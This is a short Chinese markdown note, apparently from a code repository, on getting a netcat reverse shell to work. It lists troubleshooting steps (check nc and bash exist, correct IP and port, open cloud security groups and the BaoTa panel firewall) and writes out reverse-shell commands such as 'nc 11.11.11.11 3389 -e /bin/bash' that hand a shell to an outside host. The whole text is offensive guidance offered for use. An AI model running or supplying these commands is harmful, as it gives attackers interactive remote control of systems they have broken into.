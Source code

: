 #命令反弹
##使用nc命令反弹
###nc反弹失败时，检查是否有nc命令
###检查IP地址是否正确
###端口是否正确 10000-65535
不要使用系统占用端口如```80 8080 3306 21 22 23 1433```
###云服务器控制台的安全组是否对端口放行
###如果服务器有宝塔面板，检查宝塔面板是否对端口放行了
###检查是否有bash
```
nc 11.11.11.11 3389 -e /bin/bash
```
###检查命令是否正确
```
nc 公网ip port -e /bin/sh 
```
##只能用公网IP才能反弹
